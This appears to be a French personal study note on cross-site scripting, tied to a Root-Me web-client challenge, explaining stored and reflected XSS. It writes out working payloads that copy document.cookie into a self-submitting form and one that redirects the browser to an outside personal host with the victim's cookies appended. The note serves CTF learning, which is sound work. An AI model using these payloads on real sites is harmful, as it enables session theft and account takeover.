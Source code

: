 # Outil en ligne:
    - suppresion \n: https://www.textfixerfr.com/outils/outil-suppression-saut-de-ligne.php

# XSS : Injecter du code malveillant

## Attaques XSS stockées (XSS persistant):
    - Saisie de code possible
    - Non sécurisé
=> On cherche à faire executer du code au serveur ou aux utilisateurs.
=> on insere du code maniere à ce que les utilisateurs, au chargement de la page, envoie directement des données
(+> Completer et envoeyr un form par exemple)

Exemple de code: rootme-webClient-18

><form action="" method="POST" name="hehehe">
<input type="text" name="titre" value="autoenvoye">
<textarea name="message" rows="3" cols="50" value="j'envoie" id="hehetextarea"></textarea>
<input type="submit" value="send">
</form>

><script>
>document.getElementById("hehetextarea").value = document.cookie;
>hehehe.submit();
></script>

OU:
><script>
>document.getElementsByName("message")[0].value = document.cookie;
>document.getElementsByTagName("Form")[0].submit();
></script>

### Exemple d'envoie vers notre site pour récupérer les donnnées
><script>
>let url = "https://perso.isima.fr/~abzoghlami/secret_xss/xss_post.php?"+"titre=XSS-rootme-18" + "&" + "message=" + document.cookie;
>window.location.href = url;
></script>


## Attaques XSS reflétées (XSS non persistant):
    - Ici on cherche à pieger un utilisateur à l'aide d'un lien
    - Exploite un form de type GET par exemple de manière à faire executer une action à un utilisateur DEJA connecté